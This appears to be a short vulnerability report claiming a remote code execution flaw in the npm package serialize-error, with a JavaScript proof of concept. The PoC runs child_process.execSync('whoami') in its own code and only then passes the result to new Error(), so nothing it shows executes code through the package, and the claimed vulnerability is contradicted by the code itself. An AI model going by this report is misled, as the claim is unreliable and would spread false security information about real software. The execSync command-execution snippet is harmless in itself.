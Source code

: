 ## Description

Serialize-error is an npm package to Serialize/deserialize an error into a plain object

This package is vulnerable to Remote Code Execution due to untrusted data being passed into serializedError() and new Error()

## Proof of Concept

```
const {serializeError, deserializeError} = require('serialize-error');

//exploit

let code_exec = () => {
  let exploit=require('child_process').execSync('whoami', (error, stdout, stderr)=> {
      console.log(''+stdout)
    });
  return exploit;
}


const error = new Error(code_exec());

const serialized = serializeError(error)

const deserialized = deserializeError(serialized);

console.log('\x1b[35m'+deserialized)


```
